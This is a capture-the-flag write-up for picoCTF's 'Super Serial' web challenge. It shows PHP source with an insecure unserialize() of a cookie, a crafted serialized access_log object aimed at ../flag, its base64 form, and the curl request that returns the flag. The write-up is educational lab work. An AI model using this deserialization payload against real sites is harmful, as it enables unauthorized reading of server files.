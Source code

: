 # Super Serial
Author: dch0017

## Challenge Description
Try to recover the flag stored on this website

## Accessing Site
Getting onto the site we see a  basic login page: </br>
![website](./website.png)
</br>

## Digging Around
We look around at sources to see if anything sticks out at first and nothing comes up.

Let's try to do a login with a test username of ```admin``` and password of ```password```.

We do get an error message but all it gives us is ```Invalid Login```. But we are at ```index.php``` now. So now we know this is running PHP, let's poke around in the cookies.

## Cookies
In the Chrome dev console, we see that we have 2 cookies. A  ```auth_name``` and a ```PHPSESSID```.  The ```PHPSESSID``` is the default name set by PHP that tracks session. If we had an authenticated session we may be able to use that or the ```auth_name``` cookies, but for now we keep browsing.

## Robots
Now we're over on the ```robots.txt``` and I really should have checked here sooner (automatic web scraper coming soon). The contents are:
```
User-agent: *
Disallow: /admin.phps
```

Short but gives us a lot of information. ```PHPS``` files will give us the source code to a PHP file. So let's try to browse to ```/admin.phps```

## PHPS
![adminphps](./adminphps.png)
</br>

No luck here, but if we look back the login page was an ```index.php``` so let's try browsing to ```index.phps``` and (I removed the HTML at the bottom of the .phps file to shorten):
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

## Deeper into PHP
Quickly running through the PHP of ```index.phps```: cookies.php is imported, then a connection is made to a SQLite3 db called ```users.db```. The ```$username``` and ```$password``` inputted by us is then compared to the functions ```is_guest()``` and ```is_admin()``` in the ```cookie.php``` file. If either of those return true, our ```login``` cookie is reset (by serializing, base64 encoding, and then url encoding our username + combo) and our header will change to the output of ```authentication.php```.

## Authentication.phps
Let's try to browser over to the authentication phps file and see what we get (again HTML removed):
```php
<?php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
A few things stick out, one we should be able to just go straight to ```authentication.php``` and see the Welcome guest page, as there is no check for guests.</br>
![guest](./guest.png)
</br>

Secondly, we can see that we have a ```read_log()``` function which is called by another ```__toString()``` function to return the output of a specified file. According to the hint from the challenge our flag is located at ```../flag```.

## Serialization
The crucial part to this challenge is found in the ```cookie.phps``` file. At the end we see this:
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
If a cookie named ```login``` is passed in, it will try to unpack that cookie (by base64 decoding, then unserializing) and checking it against ```is_guest()``` and ```is_admin()```. But if it fails it will catch the error and prints the unserialized variable.</br>

A good article for serialization and what I based my next steps off can be found here on [Medium by Vickie Li](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)</br>

## Generating Serialized String
When we first browsed the ```authentication.phps``` file we saw that on a successful admin login, a new instance of the ```access_log``` class was initiated with a ```access.log``` file. The ```access_log``` class also has a ```__toString()``` method which outputs the contents of the file.

Using the article above, we create a serialized object that references an instance of ```access_log``` but has our flag file ```../flag``` as the log file it references. Following the steps we get:

```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```

Now to just base64 encode our string (from cyberchef) we get:
```TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9```

## CURL with Cookie
Finally let's pass our newly generated string over to ```authentication.php``` as the ```login``` cookie.:

```console
PS C:\temp\picoCTF\Web Exploitation\Super Serial> curl mercury.picoctf.net:3449/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```
